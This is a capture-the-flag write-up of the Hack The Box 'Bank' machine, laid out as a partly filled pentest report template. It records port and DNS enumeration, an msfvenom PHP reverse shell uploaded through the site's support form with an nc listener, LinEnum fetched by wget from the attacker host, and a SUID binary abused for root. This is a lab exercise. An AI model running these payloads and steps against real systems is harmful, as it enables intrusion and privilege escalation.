

# Bank

## Introduction

This report is about pentesting a specific machine to see if it's well secured. It will document every thought and interesting investigation that helped to get into privilege escalation.  

## Objective

Run an analysis onto a specific machine 10.129.29.200

## Perimeter

Only this machine (10.129.29.200) with specific tools

- nmap
- masscan
- nc

# High-Level Summary

## Mitre techniques

Initial Access:  

- N/A  

Execution:  

- N/A

Persistence:  

- N/A  

Privilege Escalation:  

- N/A

Defense Evasion:  

- N/A

Credential Access:  

- N/A

Discovery:  

- N/A

Lateral Movement:

- N/A

Collection:  

- N/A 

Command and Control:  

- N/A

Exfiltration:  

- N/A  

Impact:  

- N/A

## Recommendations

I recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.  

Also, I recommend a better management of granted access for framework like perl to avoid root execution without password for any user.  

Check other recommendations at the end of this document. 

# Soluces

[ippsec video of Bank](https://www.youtube.com/watch?v=JRPWFSzFaG0)  
[soluces from hackingarticles](https://www.hackingarticles.in/hack-the-box-challenge-bank-walkthrough/) 
[soluces from 0xdf](https://0xdf.gitlab.io/2020/07/07/htb-bank.html)  
[soluce balance transfer](https://medium.com/@johnsonmatt/hackthebox-bank-walkthrough-8b637ec6a0df)
[soluces from Hack the box](https://github.com/michoo/sec-learning/blob/master/1_Linux/Bank/soluce/Bank.pdf)

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Exam environments is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Reconnaissance

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the shocker machine.

The specific IP addresse was:

**Scope**

- 10.129.29.200


My attacking ip machine was 10.0.2.15

## System IP: 10.129.29.200
### Enumeration


First scan on all ports on tcp and udp  

```bash
sudo masscan -p1-65535,U:1-65535 10.129.29.200 --rate=500
```
-> found onl 53 port...

Lets do a nmap

```bash
mkdir nmap
sudo nmap -sC -sV -O -oA nmap/initial 10.129.29.200
    -sC: run default nmap scripts
    -sV: detect service version
    -O: detect OS
    -oA: output all formats and store in file nmap/initial

```

#### TCP
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)

53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)

80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)

#### UDP

#### Web Services

#### Other Services

#### Harvested Informations

Dig into 10.129.29.200#53 DNS dns

```bash
# Doesn't work here but it should looks like
nslookup 
> server 10.129.29.200
Default server: 10.129.29.200
Address: 10.129.29.200#53
> 127.0.0.1
... nothing
> 10.129.29.200
10.129.29.200.in-addr.arpa        name = ns1.bank.htb.

# dnsrecon
dnsrecon -r 127.0.0/24 -n 10.129.29.200
dnsrecon -r 127.1.0/24 -n 10.129.29.200
dnsrecon -r 10.129.29.0/24 -n 10.129.29.200

# reverse dns lookup doesn't work here
dig -x 10.129.29.200 @10.129.29.200

# You can only guess..
dig axfr bank.htb @10.129.29.200
```


add bank.htb into /etc/hosts  


Then tried to connect to connect to bank.htb


Then looking for input with gobuster

```bash
mkdir scans
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o scans/gobuster-bank.htb-root-medium-php -t 50
```


Then into /balance-transfer a smaller file  
  

  

Then I'm into is bank account  

  

Ticket.php  


#### Vuln Investigation


##### Check for exploits

### Penetration

Generating reverse shell in [php](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.141 LPORT=4444 -f raw > shell.php
cp shell.php shell.htb
```

Let's start a reverse shell (check your firewall)
```bash
nc -lvnp 4444
```


Now upload it into support function with .htb name


Click on the link to execute the file


### Post exploitation


Lets get LinEnum into server

```bash
# Into tools/LinEnum directory
python -m SimpleHTTPServer 8000
```



Into server run

```bash
wget http://10.10.14.141:8000/LibEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh > results.txt

```
it takes some times...

But then lets go to http://bank.htb/uploads/results.txt

#### Host Information

#### File system
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
NAME="Ubuntu"
VERSION="14.04.5 LTS, Trusty Tahr"


#### Running processes

#### Installed applications

#### Users & Group

Logged as 
uid=33(www-data) gid=33(www-data) groups=33(www-data)


Groups
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(libuuid) gid=101(libuuid) groups=101(libuuid)
uid=101(syslog) gid=104(syslog) groups=104(syslog),4(adm)
uid=102(messagebus) gid=106(messagebus) groups=106(messagebus)
uid=103(landscape) gid=109(landscape) groups=109(landscape)
uid=1000(chris) gid=1000(chris) groups=1000(chris),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
uid=104(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=105(bind) gid=112(bind) groups=112(bind)
uid=106(mysql) gid=114(mysql) groups=114(mysql)


Some admin users
uid=101(syslog) gid=104(syslog) groups=104(syslog),4(adm)
uid=1000(chris) gid=1000(chris) groups=1000(chris),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)

/etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
chris:x:1000:1000:chris,,,:/home/chris:/bin/bash
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
bind:x:105:112::/var/cache/bind:/bin/false
mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false

Root login into ssh is permitted
PermitRootLogin yes


#### Network

#### Scheduled job
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )


-rw-r--r-- 1 root root  722 Feb  9  2013 /etc/crontab

/etc/cron.d:
total 16
drwxr-xr-x  2 root root 4096 Jan 11 14:18 .
drwxr-xr-x 96 root root 4096 Feb  2 03:26 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
-rw-r--r--  1 root root  510 Feb  9  2017 php5

/etc/cron.daily:
total 76
drwxr-xr-x  2 root root  4096 Jan 11 14:18 .
drwxr-xr-x 96 root root  4096 Feb  2 03:26 ..
-rw-r--r--  1 root root   102 Feb  9  2013 .placeholder
-rwxr-xr-x  1 root root   625 May  9  2017 apache2
-rwxr-xr-x  1 root root   376 Apr  4  2014 apport
-rwxr-xr-x  1 root root 15481 Apr 10  2014 apt
-rwxr-xr-x  1 root root   314 Feb 18  2014 aptitude
-rwxr-xr-x  1 root root   355 Jun  4  2013 bsdmainutils
-rwxr-xr-x  1 root root   256 Mar  7  2014 dpkg
-rwxr-xr-x  1 root root   372 Jan 22  2014 logrotate
-rwxr-xr-x  1 root root  1261 Sep 23  2014 man-db
-rwxr-xr-x  1 root root   435 Jun 20  2013 mlocate
-rwxr-xr-x  1 root root   249 Feb 17  2014 passwd
-rwxr-xr-x  1 root root  2417 May 13  2013 popularity-contest
-rwxr-xr-x  1 root root  2417 May 13  2013 popularity-contest
-rwxr-xr-x  1 root root   214 Oct  7  2014 update-notifier-common
-rwxr-xr-x  1 root root   328 Jul 18  2014 upstart

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Jan 11 14:18 .
drwxr-xr-x 96 root root 4096 Feb  2 03:26 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Jan 11 14:18 .
drwxr-xr-x 96 root root 4096 Feb  2 03:26 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.weekly:
total 28
drwxr-xr-x  2 root root 4096 Jan 11 14:18 .
drwxr-xr-x 96 root root 4096 Feb  2 03:26 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
-rwxr-xr-x  1 root root  730 Feb 23  2014 apt-xapian-index
-rwxr-xr-x  1 root root  427 Apr 16  2014 fstrim
-rwxr-xr-x  1 root root  771 Sep 23  2014 man-db
-rwxr-xr-x  1 root root  211 Oct  7  2014 update-notifier-common


#### Running Process
Running processes:ESC[00m
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.3   4288  3448 ?        Ss   03:26   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    03:26   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    03:26   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   03:26   0:00 [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        S    03:26   0:00 [kworker/u16:0]
root         7  0.0  0.0      0     0 ?        S    03:26   0:00 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    03:26   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    03:26   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    03:26   0:00 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    03:26   0:00 [kdevtmpfs]
root        12  0.0  0.0      0     0 ?        S<   03:26   0:00 [netns]
root        13  0.0  0.0      0     0 ?        S<   03:26   0:00 [perf]
root        14  0.0  0.0      0     0 ?        S    03:26   0:00 [khungtaskd]
root        15  0.0  0.0      0     0 ?        S<   03:26   0:00 [writeback]
root        16  0.0  0.0      0     0 ?        SN   03:26   0:00 [ksmd]
root        17  0.0  0.0      0     0 ?        SN   03:26   0:00 [khugepaged]
root        18  0.0  0.0      0     0 ?        S<   03:26   0:00 [crypto]
root        19  0.0  0.0      0     0 ?        S<   03:26   0:00 [kintegrityd]
root        20  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root        21  0.0  0.0      0     0 ?        S<   03:26   0:00 [kblockd]
root        22  0.0  0.0      0     0 ?        S<   03:26   0:00 [ata_sff]
root        23  0.0  0.0      0     0 ?        S<   03:26   0:00 [md]
root        24  0.0  0.0      0     0 ?        S<   03:26   0:00 [devfreq_wq]
root        25  0.0  0.0      0     0 ?        S    03:26   0:00 [kworker/u16:1]
root        25  0.0  0.0      0     0 ?        S    03:26   0:00 [kworker/u16:1]
root        26  0.0  0.0      0     0 ?        S    03:26   0:00 [kworker/0:1]
root        28  0.0  0.0      0     0 ?        S    03:26   0:00 [kswapd0]
root        29  0.0  0.0      0     0 ?        S<   03:26   0:00 [vmstat]
root        30  0.0  0.0      0     0 ?        S    03:26   0:00 [fsnotify_mark]
root        31  0.0  0.0      0     0 ?        S    03:26   0:00 [ecryptfs-kthrea]
root        47  0.0  0.0      0     0 ?        S<   03:26   0:00 [kthrotld]
root        48  0.0  0.0      0     0 ?        S<   03:26   0:00 [acpi_thermal_pm]
root        49  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root        50  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root        51  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root        53  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root        54  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root        55  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root        58  0.0  0.0      0     0 ?        S    03:26   0:00 [scsi_eh_0]
root        59  0.0  0.0      0     0 ?        S<   03:26   0:00 [scsi_tmf_0]
root        60  0.0  0.0      0     0 ?        S    03:26   0:00 [scsi_eh_1]
root        61  0.0  0.0      0     0 ?        S<   03:26   0:00 [scsi_tmf_1]
root        64  0.0  0.0      0     0 ?        S<   03:26   0:00 [ipv6_addrconf]
root        77  0.0  0.0      0     0 ?        S<   03:26   0:00 [deferwq]
root        78  0.0  0.0      0     0 ?        S<   03:26   0:00 [charger_manager]
root        92  0.0  0.0      0     0 ?        S    03:26   0:00 [kworker/0:2]
root       134  0.0  0.0      0     0 ?        S    03:26   0:00 [scsi_eh_2]
root       135  0.0  0.0      0     0 ?        S<   03:26   0:00 [scsi_tmf_2]
root       136  0.0  0.0      0     0 ?        S<   03:26   0:00 [vmw_pvscsi_wq_2]
root       138  0.0  0.0      0     0 ?        S<   03:26   0:00 [bioset]
root       142  0.0  0.0      0     0 ?        S<   03:26   0:00 [kpsmoused]
root       165  0.0  0.0      0     0 ?        S    03:26   0:00 [jbd2/sda1-8]
root       165  0.0  0.0      0     0 ?        S    03:26   0:00 [jbd2/sda1-8]
root       166  0.0  0.0      0     0 ?        S<   03:26   0:00 [ext4-rsv-conver]
root       192  0.0  0.0      0     0 ?        S<   03:26   0:00 [kworker/0:1H]
root       296  0.0  0.2   3028  2124 ?        S    03:26   0:00 upstart-udev-bridge --daemon
root       301  0.0  0.3  12340  3280 ?        Ss   03:26   0:00 /lib/systemd/systemd-udevd --daemon
message+   365  0.0  0.2   4268  2048 ?        Ss   03:26   0:00 dbus-daemon --system --fork
root       392  0.0  0.2   3996  2736 ?        Ss   03:26   0:00 /lib/systemd/systemd-logind
syslog     407  0.0  0.2  30492  2748 ?        Ssl  03:26   0:00 rsyslogd
root       429  0.0  0.1   3032  1784 ?        S    03:26   0:00 upstart-file-bridge --daemon
root       459  0.0  0.0      0     0 ?        S<   03:26   0:00 [ttm_swap]
root       620  0.0  0.1   3020  1828 ?        S    03:26   0:00 upstart-socket-bridge --daemon
root       650  0.0  0.3   5528  3776 ?        Ss   03:26   0:00 dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
root       800  0.0  0.1   4660  1928 tty4     Ss+  03:26   0:00 /sbin/getty -8 38400 tty4
root       803  0.0  0.1   4660  1740 tty5     Ss+  03:26   0:00 /sbin/getty -8 38400 tty5
root       808  0.0  0.1   4660  1988 tty2     Ss+  03:26   0:00 /sbin/getty -8 38400 tty2
root       809  0.0  0.1   4660  1828 tty3     Ss+  03:26   0:00 /sbin/getty -8 38400 tty3
root       812  0.0  0.1   4660  1944 tty6     Ss+  03:26   0:00 /sbin/getty -8 38400 tty6
root       844  0.0  0.4   7828  4776 ?        Ss   03:26   0:00 /usr/sbin/sshd -D
daemon     845  0.0  0.0   2656   124 ?        Ss   03:26   0:00 atd
root       847  0.0  0.2   3068  2168 ?        Ss   03:26   0:00 cron
root       863  0.0  0.1   2212  1488 ?        Ss   03:26   0:00 acpid -c /etc/acpi/events -s /var/run/acpid.socket
mysql      928  0.0  4.2 327380 43144 ?        Ssl  03:26   0:01 /usr/sbin/mysqld
bind       965  0.0  1.5  47160 16144 ?        Ssl  03:26   0:00 /usr/sbin/named -u bind
root      1005  0.1  0.6  43216  6660 ?        Sl   03:26   0:04 /usr/bin/vmtoolsd
root      1083  0.0  2.0 103516 21324 ?        Ss   03:26   0:00 /usr/sbin/apache2 -k start
www-data  1086  0.0  0.3  21540  3684 ?        S    03:26   0:00 /usr/sbin/apache2 -k start
www-data  1088  0.0  1.1 103892 11944 ?        S    03:26   0:00 /usr/sbin/apache2 -k start
www-data  1089  0.0  1.2 103892 12604 ?        S    03:26   0:00 /usr/sbin/apache2 -k start
www-data  1090  0.0  1.1 103892 11820 ?        S    03:26   0:00 /usr/sbin/apache2 -k start
www-data  1091  0.0  0.7 103648  7324 ?        S    03:26   0:00 /usr/sbin/apache2 -k start
www-data  1092  0.0  1.2 103908 12764 ?        S    03:26   0:00 /usr/sbin/apache2 -k start
root      1161  0.0  0.1   4660  1988 tty1     Ss+  03:26   0:00 /sbin/getty -8 38400 tty1
root      1263  0.0  0.0      0     0 ?        S    03:26   0:00 [kauditd]
www-data  1391  0.0  0.7 103648  7272 ?        S    04:04   0:00 /usr/sbin/apache2 -k start
www-data  1395  0.0  1.0 103604 10448 ?        S    04:05   0:00 /usr/sbin/apache2 -k start
www-data  1396  0.0  0.5 103588  5656 ?        S    04:05   0:00 /usr/sbin/apache2 -k start
www-data  1397  0.0  1.0 103588 10368 ?        S    04:05   0:00 /usr/sbin/apache2 -k start
www-data  1398  0.0  1.1 103892 11816 ?        S    04:05   0:00 /usr/sbin/apache2 -k start
www-data  1956  0.0  0.0   2284   584 ?        S    04:19   0:00 sh -c ./LinEnum.sh > results.txt
www-data  1957  0.0  0.3   4212  3556 ?        S    04:19   0:00 /bin/bash ./LinEnum.sh
www-data  1958  0.0  0.3   4240  3116 ?        S    04:19   0:00 /bin/bash ./LinEnum.sh
www-data  1959  0.0  0.0   2192   584 ?        S    04:19   0:00 tee -a
www-data  2145  0.0  0.2   4240  2644 ?        S    04:21   0:00 /bin/bash ./LinEnum.sh
www-data  2146  0.0  0.1   3156  1940 ?        R    04:21   0:00 ps aux


#### Software

ESC[00;31m[-] Sudo version:ESC[00m
Sudo version 1.8.9p5


ESC[00;31m[-] MYSQL version:ESC[00m
mysql  Ver 14.14 Distrib 5.5.55, for debian-linux-gnu (i686) using readline 6.3


ESC[00;31m[-] Apache version:ESC[00m
Server version: Apache/2.4.7 (Ubuntu)
Server built:   May  9 2017 16:13:38


ESC[00;31m[-] Apache user configuration:ESC[00m
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


ESC[00;31m[-] Installed Apache modules:ESC[00m
Loaded Modules:
 core_module (static)
 so_module (static)
 watchdog_module (static)
 http_module (static)
 log_config_module (static)
 logio_module (static)
 version_module (static)
 unixd_module (static)
 access_compat_module (shared)
 alias_module (shared)
 auth_basic_module (shared)
 authn_core_module (shared)
 authn_file_module (shared)
 authz_core_module (shared)
 authz_host_module (shared)
 authz_user_module (shared)
 autoindex_module (shared)
 deflate_module (shared)
 dir_module (shared)
 env_module (shared)
 fcgid_module (shared)
 filter_module (shared)
 include_module (shared)
 mime_module (shared)
 mpm_prefork_module (shared)
 negotiation_module (shared)
 php5_module (shared)
 rewrite_module (shared)
 setenvif_module (shared)
 status_module (shared)
 suexec_module (shared)

Useful file locations:ESC[00m
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/nmap
/usr/bin/gcc
/usr/bin/curl


ESC[00;31m[-] Installed compilers:ESC[00m
ii  g++                                4:4.8.2-1ubuntu6                           i386         GNU C++ compiler
ii  g++-4.8                            4.8.4-2ubuntu1~14.04.3                     i386         GNU C++ compiler
ii  gcc                                4:4.8.2-1ubuntu6                           i386         GNU C compiler
ii  gcc-4.8                            4.8.4-2ubuntu1~14.04.3                     i386         GNU C compiler


ESC[00;31m[-] Can we read/write sensitive files:ESC[00m
-rw-rw-rw- 1 root root 1252 May 28  2017 /etc/passwd
-rw-r--r-- 1 root root 707 May 28  2017 /etc/group
-rw-r--r-- 1 root root 665 Feb 20  2014 /etc/profile
-rw-r----- 1 root shadow 895 Jun 14  2017 /etc/shadow


ESC[00;31m[-] SUID files:ESC[00m
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 492972 Aug 11  2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 333952 Dec  7  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 9808 Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 daemon daemon 46652 Oct 21  2013 /usr/bin/at
-rwsr-xr-x 1 root root 35916 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 44620 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 18168 Nov 24  2015 /usr/bin/pkexec
-rwsr-xr-x 1 root root 30984 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 18136 May  8  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 66284 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 156708 May 29  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 72860 Oct 21  2013 /usr/bin/mtr
-rwsr-sr-x 1 libuuid libuuid 17996 Nov 24  2016 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 323000 Apr 21  2015 /usr/sbin/pppd
-rwsr-xr-x 1 root root 38932 May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 43316 May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 35300 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 88752 Nov 24  2016 /bin/mount
-rwsr-xr-x 1 root root 67704 Nov 24  2016 /bin/umount


find / -perm -u=s -type f 2>/dev/null

/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount


/var/htb/bin/emergency


### Privilege escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

trying https://www.exploit-db.com/exploits/42276

```bash
gcc -o exploit 42276.c
# Or if trouble with ld
gcc -B /usr/bin -o exploit 42276.c
```

/var/htb/bin/emergency will pop a root shell

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

### Goodies

#### Hashes

#### Passwords

#### Proof/Flags/Other

**Proof Screenshot Here:**

**Proof.txt Contents:**

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the exam network was completed, Alec removed all user accounts and passwords as well as the Meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Detailed Recommandations

## Technical

## Governance

## Blue team

# Additional Items

## Appendix - Proof and Local Contents

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here

## Appendix - Metasploit/Meterpreter Usage

For the exam, I used my Metasploit/Meterpreter allowance on the following machine: `192.168.x.x`

## Appendix - Completed Buffer Overflow Code

```
code here
```
